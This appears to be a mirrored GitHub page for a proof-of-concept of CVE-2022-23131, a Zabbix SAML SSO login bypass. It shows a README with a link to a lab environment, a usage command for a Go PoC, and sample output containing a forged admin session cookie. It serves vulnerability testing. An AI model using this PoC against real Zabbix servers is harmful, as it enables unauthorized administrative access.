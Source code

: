 # CVE-2022-23131

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/trganda](https://github.com/trganda) |
| Url      | [https://github.com/trganda/CVE-2022-23131](https://github.com/trganda/CVE-2022-23131)                                               |
| Stars    | 1                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Zabbix SAML SSO Login Bypass Vulnerability CVE-2022-23131

Enviroment and Poc of CVE-2022-23131

## Enviroment

You can create a Zabbix with SAML SSO follow the step in [Zabbix Enviroment for CVE-2022-23131](https://github.com/trganda/dockerenv/tree/master/vuln/zabbix/CVE-2022-23131).

## Poc

The Poc was modified from [jweny](https://github.com/jweny/zabbix-saml-bypass-exp)

Usage:

```bash
go run poc.go check -t http://localhost:8080 -u Admin

[INFO] 2022/02/24 19:49 vul exist! target: http://localhost:8080, cookie: eyJzYW1sX2RhdGEiOnsidXNlcm5hbWVfYXR0cmlidXRlIjoiQWRtaW4ifSwic2Vzc2lvbmlkIjoiYmYyMzAxMWU1YWMyOWE1MjFlN2E1ZDZjMTAwZDQ2NjAiLCJzaWduIjoiaytKblhjVjlhQmJRa3NJc21oMVRwVEhrMGFDSTJOYkM1VGNTU1doczQ3YVIrNmpWZ1BKOGw5cWZhZlRmcjA3VGVKalNZcW5kZWRPWEtleklmS0Fjb3c9PSJ9
```



## Get the content

```
git clone https://github.com/trganda/CVE-2022-23131
cd CVE-2022-23131
```

{% embed url="https://github.com/trganda/CVE-2022-23131" %}

<figure><img src="https://avatars.githubusercontent.com/u/62204882?v=4" alt=""><figcaption><p>trganda</p></figcaption></figure>
